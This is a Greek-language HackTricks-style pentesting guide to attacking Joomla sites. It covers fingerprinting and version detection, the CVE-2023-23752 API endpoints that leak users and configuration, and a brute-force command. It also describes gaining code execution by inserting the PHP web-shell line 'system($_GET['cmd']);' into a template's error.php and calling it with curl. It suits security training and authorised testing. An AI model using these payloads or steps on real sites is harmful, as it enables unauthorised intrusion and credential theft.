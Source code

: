 # Joomla

{{#include ../../banners/hacktricks-training.md}}


### Joomla Στατιστικά

Το Joomla συλλέγει ορισμένα ανώνυμα [στατιστικά χρήσης](https://developer.joomla.org/about/stats.html) όπως η κατανομή των εκδόσεων Joomla, PHP και βάσεων δεδομένων και των λειτουργικών συστημάτων διακομιστών που χρησιμοποιούνται σε εγκαταστάσεις Joomla. Αυτά τα δεδομένα μπορούν να ανακτηθούν μέσω του δημόσιου [API](https://developer.joomla.org/about/stats/api.html).
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

- Έλεγχος του **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
- robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
- README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Έκδοση

- Στο **/administrator/manifests/files/joomla.xml** μπορείτε να δείτε την έκδοση.
- Στο **/language/en-GB/en-GB.xml** μπορείτε να βρείτε την έκδοση του Joomla.
- Στο **plugins/system/cache/cache.xml** μπορείτε να δείτε μια περίπου έκδοση.

### Αυτόματη
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Η Μεθοδολογία Pentesting Web είναι μια ενότητα σχετικά με τους σαρωτές CMS**](#cms-scanners) που μπορούν να σαρώσουν το Joomla.

### API Μη Αυθεντικοποιημένη Αποκάλυψη Πληροφοριών:

Οι εκδόσεις από 4.0.0 έως 4.2.7 είναι ευάλωτες σε μη αυθεντικοποιημένη αποκάλυψη πληροφοριών (CVE-2023-23752) που θα εκθέσει διαπιστευτήρια και άλλες πληροφορίες.

- Χρήστες: `http://<host>/api/v1/users?public=true`
- Αρχείο Ρυθμίσεων: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF Module**: `scanner/http/joomla_api_improper_access_checks` ή ruby script: [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

Μπορείτε να χρησιμοποιήσετε αυτό το [script](https://github.com/ajnik/joomla-bruteforce) για να προσπαθήσετε να κάνετε brute force την είσοδο.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Αν καταφέρατε να αποκτήσετε **διαπιστευτήρια διαχειριστή**, μπορείτε να **RCE μέσα σε αυτό** προσθέτοντας ένα κομμάτι **PHP κώδικα** για να αποκτήσετε **RCE**. Μπορούμε να το κάνουμε αυτό **προσαρμόζοντας** ένα **θέμα**.

1. **Κάντε κλικ** στο **`Templates`** στο κάτω αριστερό μέρος κάτω από `Configuration` για να εμφανιστεί το μενού θεμάτων.
2. **Κάντε κλικ** σε ένα όνομα **θέματος**. Ας επιλέξουμε το **`protostar`** κάτω από την επικεφαλίδα στήλης `Template`. Αυτό θα μας φέρει στη σελίδα **`Templates: Customise`**.
3. Τέλος, μπορείτε να κάνετε κλικ σε μια σελίδα για να εμφανίσετε τον **πηγαίο κώδικα**. Ας επιλέξουμε τη σελίδα **`error.php`**. Θα προσθέσουμε μια **PHP one-liner για να αποκτήσουμε εκτέλεση κώδικα** ως εξής:
1. **`system($_GET['cmd']);`**
4. **Αποθήκευση & Κλείσιμο**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## Από XSS σε RCE

- [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Σενάριο εκμετάλλευσης Joomla που **ανεβάζει XSS σε RCE ή άλλες κρίσιμες ευπάθειες**. Για περισσότερες πληροφορίες δείτε [**αυτή την ανάρτηση**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Παρέχει **υποστήριξη για τις εκδόσεις Joomla 5.X.X, 4.X.X και 3.X.X, και επιτρέπει να:**
- _**Αύξηση Δικαιωμάτων:**_ Δημιουργεί έναν χρήστη στο Joomla.
- _**(RCE) Επεξεργασία Ενσωματωμένων Θεμάτων:**_ Επεξεργάζεται Ενσωματωμένα Θέματα στο Joomla.
- _**(Custom) Προσαρμοσμένες Εκμεταλλεύσεις:**_ Προσαρμοσμένες Εκμεταλλεύσεις για τρίτους πρόσθετους Joomla.


{{#include ../../banners/hacktricks-training.md}}
